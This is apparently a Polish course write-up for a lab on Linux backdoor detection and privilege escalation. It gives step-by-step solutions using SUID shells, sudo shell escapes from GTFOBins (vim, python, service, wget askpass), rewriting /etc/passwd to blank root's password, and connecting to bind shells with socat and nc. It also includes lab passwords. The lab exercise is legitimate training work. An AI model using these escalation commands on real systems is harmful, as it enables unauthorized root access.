# Eskalacja Uprawień
GTFOBins (https://gtfobins.github.io)  to baza danych narzędzi systemowych na Unix/Linux, które mogą być
wykorzystane do eskalacji uprawnień, omijania zabezpieczeń lub wykonywania
nieautoryzowanych działań.

## Automated enumeration tools
`linPEAS` : https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS
## SUID/SGID
Much of Linux privilege controls rely on controlling the users and files interactions.  
This is done with permissions. By now, you know that files can have read, write, and execute permissions. These are given to users within their privilege levels. This changes with SUID (Set-user Identification) and SGID (Set-group Identification). These allow files to be executed with the permission level of the file owner or the group owner, respectively.  

Will list files that have SUID or SGID bits set:  
`find / -type f -perm -04000 -ls 2>/dev/null`
## Ćwiczenia
Upload linPEAS:
```
Student (Kali Linux):
wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
scp linpeas.sh student@192.168.100.7:/home/student
```
Run linPEAS:
```
student@backdoor-detection:
bash linpeas.sh
```
Backdoor 0 - Baseline:
```
ssh system0@192.168.100.7-p 2200 #hasło: pjatk
su #hasło: toor, podane w wiadomości po zalogowaniu
/root/solve
```
Backdoor 1 - SUID:
Przykładem popularnej techniki ukrywania root backdoora w systemie jest ukrywanie pliku
binarnego powłoki z ustawionym bitem SUID w jakimś miejscu. Pierwsza seria wyzwań
skupi się na wykrywaniu takich plików.
Przykładowy plik binarny z SUID znajduje się w katalogu domowym. Możesz uruchomić
polecenie 'ls-l', aby sprawdzić, czy bit SUID jest ustawiony (chmod u+s). Opcjonalnie
możesz uruchomić skrypt linpeas.sh, aby sprawdzić, czy podejrzany plik jest wykrywany.
```
ssh system1@192.168.100.7-p 2201
ls-l
./backdoor
/root/solve
```
Backdoor 2 – ukryty SUID:
```
ssh system2@192.168.100.7-p 2202

find / -type f -perm /6000 2>/dev/null
/usr/sbin/nothing
/root/solve
```
albo
`find / -type f -perm /4000 -exec ls -l {} \; 2>/dev/null`
albo
```
find / -perm -4000 -type f 2>/dev/null
/usr/sbin/delete
/root/solve
```
Backdoor 3 – Shell SUID:
 ```
ssh system3@192.168.100.7-p 2203
find / -type f -perm /6000 2>/dev/null
bash -p #bash bez parametru -p ignoruje SUID i cofa wyższe uprawnienia!
id
/root/solve
 ```
albo:
`find / -type f -perm /4000 -exec ls -l {} \; 2>/dev/null`
Backdoor 4 – podmieniony SUID:
```
find / -type f -perm /6000 -exec sha1sum {} \; 2>/dev/null
#uruchom tę komendę również na system0 i porównaj wyniki
/usr/lib/openssh/ssh-keysign
/root/solve
```
albo:
`find / -type f -perm /4000 -exec ls -l {} \; 2>/dev/null`
albo:
```
find / -perm -4000 -type f 2>/dev/null
cd /usr/bin
ls -ls ~ grp rwsr
chfn
/root/solve
```
Backdoor 5 – Sudo:
```
ssh system5@192.168.100.7-p 2205
sudo -l
sudo /usr/bin/python3 -c "import os;os.system('/root/solve')"
```
Backdoor 6 – GTFOBins:
```
ssh system6@192.168.100.7-p 2206
sudo -l
#https://gtfobins.github.io/gtfobins/vim/#sudo
sudo vim
:!bash
/root/solve
```
Backdoor 7 – Passwd:
```
ssh system7@192.168.100.7-p 2207
cat /etc/passwd | grep root #root nie ma hasła!
su
/root/solve
```
Backdoor 8 – All in One:
```
ssh system8@192.168.100.7-p 2208
sudo -l
cp /etc/passwd .
sed-i s/root:x/root:/ ./passwd
sudo curl file:///home/system8/passwd -o /etc/passwd
su
/root/solve
```
albo:
```
sudo -l
touch temp
chmod +x temp
echo -e '#!/bin/sh\n/bin/sh 1>&0` > temp
sudo wget --use-askpass=./temp 0
/root/solve
```
Backdoor 9 – Bind Shell:
```
ssh system9@192.168.100.7-p 2209
ss -tlpn
ps aux
socat FILE:`tty`,raw,echo=0 TCP:127.0.0.1:12345
/root/solve
```
___
## Ćwiczenia pentest
Załadowanie Nmap:
```
Student (Kali Linux):
wget https://github.com/opsec-infosec/nmap-static-binaries/releases/download/v2/nmap-x64.tar.gz
scp nmap-x64.tar.gz student@192.168.100.7:/home/student
student@backdoor-detection:
tar zxvf nmap-x64.tar.gz
```
Skan Nmap:
```
student@backdoor-detection:
./nmap-p--n-Pn-sV-vv 192.168.200.57
```
Bind Shell:
Celem zadania jest połączenie się i detekcja tylnej furtki typu bind shell na hoście
192.168.200.57:
Zwróć uwagę, że nmap oznaczył port 8080 jako „http-proxy?” bez wykrytej wersji,
a na końcu raportu widać shell prompt wskazujący na bind shell!
```
student@backdoor-detection:
nc 192.168.200.57 8080
```
linPEAS upload 1:
```
student@backdoor-detection:
python3 -m http.server 1234

admin@192.168.200.57:
wget http://192.168.200.7/linpeas.sh
```
Flaga Roota:
Zauważ, że linPEAS wykrył możliwość uruchomienia polecenia service za pomocą
sudo! Jeżeli nie wiesz jak wykorzystać to polecenie do eskalacji uprawnień,
pamiętaj o dokumentacji na stronie GFTOBins!
https://gtfobins.github.io/gtfobins/service/#sudo

```
admin@192.168.200.57:
sudo -l
sudo service ../../bin/bash
id
cat /root/root.txt
```
Ja tut tylko zrobiłem `su`
